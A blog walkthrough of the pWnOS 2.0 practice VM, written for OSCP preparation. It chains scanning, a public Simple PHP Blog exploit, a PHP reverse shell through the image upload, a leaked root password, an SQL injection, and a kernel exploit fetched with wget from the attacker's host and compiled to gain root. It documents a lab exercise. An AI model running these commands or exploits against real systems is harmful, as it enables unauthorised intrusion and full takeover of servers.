







pWnOS 2.0 - Walkthrough
Description
I know, it’s a very old machine (2011), but I was just searching for OSCP like Vulnhub boxes and I saw this machine mentioned in a blog post. Since I’m trying to prepare for that certification, I thought it might be a good idea to do some older boxes for practice. The goal of the machine is to get root, so there are no flags. Note that this machine won’t work with VirtualBox out of the box. I had to create a NAT network within the 10.10.10.0/24 network range and configure both VM to use this network.
Download it from here: pWnOS 2.0 on Vulnhub
Port scanning
root@kali:~# nmap -A -sC -F 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up (0.00019s latency).
Not shown: 98 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 5.8p1 Debian 1ubuntu3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 1024 85:d3:2b:01:09:42:7b:20:4e:30:03:6d:d1:8f:95:ff (DSA)
| 2048 30:7a:31:9a:1b:b8:17:e7:15:df:89:92:0e:cd:58:28 (RSA)
|_ 256 10:12:64:4b:7d:ff:6a:87:37:26:38:b1:44:9f:cf:5e (ECDSA)
80/tcp open http Apache httpd 2.2.17 ((Ubuntu))
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
| http-server-header: Apache/2.2.17 (Ubuntu)
| http-title: Welcome to this Site!
MAC Address: 08:00:27:60:1C:37 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.32 - 2.6.39
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE
HOP RTT ADDRESS
1 0.19 ms 10.10.10.100
Usual stuff, let’s investigate on the web server using dirb.
Busting directories
I tend to use dirb, but there are other tools for this purpose, like nikto or dirbuster. Anyway, here is the result:
root@kali:~# dirb http://10.10.10.100
-----------------
DIRB v2.22
By The Dark Raver
-----------------
URL_BASE: http://10.10.10.100/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
-----------------
GENERATED WORDS: 4612
---- Scanning URL: http://10.10.10.100/ ----
+ http://10.10.10.100/activate (CODE:302|SIZE:0)
==> DIRECTORY: http://10.10.10.100/blog/
+ http://10.10.10.100/cgi-bin/ (CODE:403|SIZE:288)
==> DIRECTORY: http://10.10.10.100/includes/
+ http://10.10.10.100/index (CODE:200|SIZE:854)
+ http://10.10.10.100/index.php (CODE:200|SIZE:854)
+ http://10.10.10.100/info (CODE:200|SIZE:50171)
+ http://10.10.10.100/info.php (CODE:200|SIZE:50040)
+ http://10.10.10.100/login (CODE:200|SIZE:1174)
+ http://10.10.10.100/register (CODE:200|SIZE:1562)
+ http://10.10.10.100/server-status (CODE:403|SIZE:293)
---- Entering directory: http://10.10.10.100/blog/ ----
+ http://10.10.10.100/blog/add (CODE:302|SIZE:0)
+ http://10.10.10.100/blog/atom (CODE:200|SIZE:1062)
+ http://10.10.10.100/blog/categories (CODE:302|SIZE:0)
==> DIRECTORY: http://10.10.10.100/blog/config/
+ http://10.10.10.100/blog/contact (CODE:200|SIZE:5918)
==> DIRECTORY: http://10.10.10.100/blog/content/
==> DIRECTORY: http://10.10.10.100/blog/docs/
==> DIRECTORY: http://10.10.10.100/blog/flash/
==> DIRECTORY: http://10.10.10.100/blog/images/
+ http://10.10.10.100/blog/index (CODE:200|SIZE:8094)
+ http://10.10.10.100/blog/index.php (CODE:200|SIZE:8094)
+ http://10.10.10.100/blog/info (CODE:302|SIZE:0)
+ http://10.10.10.100/blog/info.php (CODE:302|SIZE:0)
==> DIRECTORY: http://10.10.10.100/blog/interface/
==> DIRECTORY: http://10.10.10.100/blog/languages/
+ http://10.10.10.100/blog/login (CODE:200|SIZE:5667)
+ http://10.10.10.100/blog/logout (CODE:302|SIZE:0)
+ http://10.10.10.100/blog/options (CODE:302|SIZE:0)
+ http://10.10.10.100/blog/rdf (CODE:200|SIZE:1411)
+ http://10.10.10.100/blog/rss (CODE:200|SIZE:1237)
==> DIRECTORY: http://10.10.10.100/blog/scripts/
+ http://10.10.10.100/blog/search (CODE:200|SIZE:4951)
+ http://10.10.10.100/blog/setup (CODE:302|SIZE:0)
+ http://10.10.10.100/blog/static (CODE:302|SIZE:0)
+ http://10.10.10.100/blog/stats (CODE:200|SIZE:5309)
==> DIRECTORY: http://10.10.10.100/blog/themes/
+ http://10.10.10.100/blog/trackback (CODE:302|SIZE:0)
+ http://10.10.10.100/blog/upgrade (CODE:302|SIZE:0)
It looks like, there’s is a different site or probably a blog installed under the blog directory. Let’s find out!
Discovering the blog
Yes, it is a basic blog. Page Info helped me to find out, what this site is running.

As you can see, the generator is Simple PHP Blog 0.4.0 and quickly searched for this to see if it has any vulnerabilities. Actually, I found quite a few vulnerabilities. I also searched with searchsploit and decided to use use the first exploit.
root@kali:~# searchsploit simple PHP blog 0.4.0
--------------------------------------------------------------- ------------------------------
Exploit Title | Path
| (/usr/share/exploitdb/)
--------------------------------------------------------------- ------------------------------
Simple PHP Blog 0.4.0 - Multiple Remote s | exploits/php/webapps/1191.pl
Simple PHP Blog 0.4.0 - Remote Command Execution (Metasploit) | exploits/php/webapps/16883.rb
--------------------------------------------------------------- ------------------------------
Shellcodes: No Result
Exploiting the blog
I might have overcomplicated the exploitation, but here is how I did it. First, I set a new username and password combination (admin/admin).
root@kali:~# perl 1191.pl -h http://10.10.10.100/blog -e 3 -U admin -P admin
________________________________________________________________________________
SimplePHPBlog v0.4.0 Exploits
by
Kenneth F. Belva, CISSP
http://www.ftusecurity.com
________________________________________________________________________________
Running Set New Username and Password Exploit....
Deleted File: ./config/password.txt
./config/password.txt created!
Username is set to: admin
Password is set to: admin
*** Exploit Completed....
Have a nice day! :)
Then, I logged in and started looking for oportunities to upload a reverse shell.

Hmmm… Image upload? Hell yess! They didn’t even check the extension… Moreover, there was directory listing enable in the /blog/images directory. So, I could easily select and trigger my PHP reverse shell. Previously, I set up my netcat listening on port 1234 and now I got the connection back I was waiting for.
root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
10.10.10.100: inverse host lookup failed: Unknown host
connect to [10.10.10.4] from (UNKNOWN) [10.10.10.100] 48103
Linux web 2.6.38-8-server #42-Ubuntu SMP x86_64 x86_64 x86_64 GNU/Linux
08:59:11 up 17:51, 0 users, load average: 0.00, 0.01, 0.03
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@web:/$
Getting root access
In the web root, I found a mysqli_connect.php file, but the credentials didn’t work. However, there was a similar file in the /var directory and it was gold!
1 | # Script 8.2 - mysqli_connect.php |
I mean, the password was actually the root password.
www-data@web:/var$ su root
su root
Password: root@ISIntS
root@web:/var# id
uid=0(root) gid=0(root) groups=0(root)
But, I didn’t stop here. I wanted to find other ways to get in. So, I went back to the original site and started poking around. After I didn’t find anything useful, I registered with a test account.

Of course, I fired up Burp Suite to see and modify the requests. I found an SQL injection vulnerability in the email field.



I should note here, that on the picture I named the PHP file as shell.php, but I successfully messed things up and I ended with another file named cmd.php.

Getting root again
I thought, there must be another way in like a kernel exploit. I started searching and trying out different exploits until I found a working one. Launched my local web server and delivered the source code. I knew, there was a gcc compiler on the machine so all I had to do is transfer the code, compile and run.
$ wget http://10.10.10.4:8000/25444.c
--2019-01-09 12:27:14-- http://10.10.10.4:8000/25444.c
Connecting to 10.10.10.4:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2835 (2.8K) [text/plain]
Saving to: `25444.c'
0K .. 100% 568M=0s
2019-01-09 12:27:14 (568 MB/s) - `25444.c' saved [2835/2835]
$ ls
25444.c
$ gcc -O2 25444.c
$ chmod +x a.out
$ python -c "import pty; pty.spawn('/bin/bash')"
www-data@web:/tmp$ ./a.out
2.6.37-3.x x86_64
sd@fucksheep.org 2010
root@web:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@web:/tmp#
Before you go
If you found this article helpful, please share to help others with similar interest find it! + Feedback and donations are always welcome!